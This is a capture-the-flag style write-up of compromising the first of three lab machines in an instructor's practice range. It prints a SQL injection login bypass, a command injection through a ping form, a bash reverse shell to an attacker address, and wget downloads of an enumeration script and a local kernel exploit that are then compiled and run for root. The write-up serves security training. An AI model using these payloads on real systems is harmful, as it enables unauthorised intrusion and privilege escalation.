 # Keys to the Kingdom Pt. 1
A in depth walkthrough of how I solved a fairly realistic exercise one of my instructors put to me. This exercise was loads of fun and kept me entertained for quite a while with all of its little rabbit holes and misdirects. There will be 3 parts to this writeup as there were three different boxes to root. This is the first.

Shout out to [@Kyzen-gmg](https://github.com/Kyzen-gmg)  for the range and giving me the idea to do this writeup. 

### It begins...
This is how it started, with a post from an instructor of mine in our class’s Teams channel. "Find the 'Keys' To the Kingdom", he said and then posted a link to a file on google drive along with 3 IP addresses.

![S](Images/TheBegining1.png)
#### So we have a couple of clues. 
From just that introduction, I noticed a couple of things that could give me an idea on where to go with this.
1. Keys. I wonder what sort of keys he’s talking about? 
It could be a VPN key hidden in that packet capture, but it could also be an SSH key, or knowing him, it could be a misdirection. 

2. Our second clue comes from 2 of those IP's they are one after another in sequence. So it stands to reason they are on the same subnet and can only be accessed via this hypothetical VPN. \

#### Well only one way to find out! Lets open that pcap in Wireshark.

![S](Images/LotsOfPackets.png)

There are a little over 4000 packets in this pcap file but most of them don’t tell me much. They’re all around 90 in length. Maybe hidden within here is something more substantial. So, I sort by length and find a file that’s a bit longer. 

![S](Images/ThatsBetter.png)

That’s much better! We found a full OpenVPN key. With a little research about OpenVPN keys I find that I can copy this text directly into a file with the extension .ovpn and connect to the range using the command ``sudo openvpn <filenamehere>.ovpn``

#### ***90s hacker voice*** Im in.
![S](Images/ImIn.png)

## Now, the real fun begins...

I start by enumerating all 3 of the obtained IP addresses using [@dievus'](https://github.com/dievus) fantastic [Threader3000](https://github.com/dievus/threader3000) tool. I truly love this little guy. It makes port scanning so much quicker and more automated by quickly telling you which ports are up and then constructing an Nmap scan tailored to that specific target. It only deeply scans the ports that its initial scan previously found to be open, which significantly speeds up your wait time. It also automatically outputs your scans into 3 different file formats which you can reference later. I love Threader3000 and cant sing its praises enough. So go check it out for yourself!
Anyway, back to port scanning starting with...
## Box 1
![S](Images/nmap1.png)

Going for the low hanging fruit (and the best option here), I decide to go check out the website on `port 8080`. I’m greeted with a basic admin login page with the URL extension `index.php`. This lets gives me an idea that I may be able to perform a sql injection but I’m still not sure.

![S](Images/phpAdminPage.png)

So, I fire up Burp Suite and check out what’s happening when i hit the login button.

![S](Images/burping.png)

Ok there's probably something here. 
Let’s send this to the repeater module in Burp and check out what’s going on. `ctrl+R` is a quick shortcut for moving requests from the Proxy tab into the Repeater Tab. Here, we can manipulate our requests for testing the right sort of attack.
I’m focusing on the bottom line of this request, as this is where our username and password data goes. I added a single character in the username field and got this response back.

![S](Images/burping2.png)

This looks like the HTML for the login page. But what if I put some SQL into that field?
Maybe like, a common administrator name like `admin` along with `'OR '1'='1` What would happen?

![S](Images/burping3.png)

#### It worked!!!
Then I just take that same text `admin' OR '1'='1` and plug it into the username field on the actual site and I should be taken to the administrative console...

![S](Images/adminConsole.png)

Awesome, now we can probably use this ping page to get a shell into the actual machine. So, lets figure out how to do that.
First i typed an IP `127.0.0.1` into the field and got a pretty generic response. 
Sure, that it was pinging, I tried to see if I could piggyback on that ping command using the semicolon

So, I pinned a Print Working Directory command to the end of that local host ping `127.0.0.1;pwd` and got something much better.

![S](Images/Localpwd.png)

From here it was just a matter of making this machine (target) call back to my (attacker) machine.
As always, I set up a net cat listener on my (attacker) machine using the command `nc -lvnp 4444` and then I went over to [pentest monkey's](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) reverse shell cheat sheet where I got the bash reverse shell.

When appended to the end of the localhost ping, the final command looked like this: 
`127.0.0.1;bash -i >& /dev/tcp/10.0.0.0/4444 0>&1`

#### Voila
![S](Images/revShell1.png)

Now we have to escalate our privileges. This is the part that took me the longest on this box as I was running around searching for an exploit that would work here. But we will skip over all of that and get straight into the meat. First I needed to check who I was, `id` let me know that I was apache and a `pwd` showed that I spawned in the `/var/www` directory.
Then I quickly upgraded my shell using `python -c 'import pty; pty.spawn("/bin/bash")'`
I couldnt touch any of the user accounts and I most definately didnt have root access. So, I decided to go to `/tmp` and see if I could place any files in there.
A quick `touch 1.txt` inside the directory, confirmed that I could. So, I went and grabbed a copy of linenum.sh, and saved it into my local directory where I was keeping all of the information about this box (nmap scans, notes, exploit code, etc.). 
**Note:** staying organized during engagements is incredibly important. What I often do is create a subdirectory within my home directory and just work out of that the whole time. This helps keep everything organized and lets me refer back to things later if needed.


On my machine:

`python3 -m http.server`

On target machine:

`wget http://m.y.i.p:8000/linenum.sh`

`chmod +x linenum.sh`

`./linenum.sh`

Unfortunately, I didn’t get much information out of that, but I got enough. Which allowed me to go and search for an exploit to escalate my privileges.

![S](Images/linenumOutput.png)

## The Final Stage

Now that the OS and Kernel version are both confirmed, it’s a good time to go search for a relevant exploit. I chose to use searchsploit for this on my Kali Box. 

![S](Images/searchsploit.png)

This first exploit looks promising. So, I copy the file to my engagement directory `cp /usr/share/exploitdb/exploits/linux/local/9545.c /your/engagement/directory/9545.c`and start a python http server inside of it `python3 -m http.server`

The server defaults to port 8000, so on the target machine (in /tmp) I ran `wget http://m.y.i.p:8000/9545.c` which copied the exploit over to the target machine.

![S](Images/exploitcopy.png)

Finally, its time to compile and exploit. This can all be done with one single command by to using the gcc compiler on 9545.c and outputting to another file called 9545. Then using `&&` to run the new 9545 file after the compiling is completed.  

The final command looks like this: `$ gcc 9545.c -o 9545 && ./9545`

![S](Images/rootaccess.png)
**We have root**

## Final thoughts on this first box

I had a great time with this exercise. It was a good way to get some practice with Linux privilege escalation exploits that I don’t often get. Most of my experience with Linux priv esc comes in the form of exploiting cronjobs or SUID permissions. So, needless to say this was a welcome change of pace for me. 

Any questions? Feel free to contact me via email: jwautry93@gmail.com you can also reach out to me on my [LinkedIn](https://www.linkedin.com/in/jwautry/) 

More write-ups will be coming in the future, so make sure to keep a look out for those. I have 2 more boxes to chronicle in this series and loads more projects to take on after that.

**Thanks for reading!**

-J
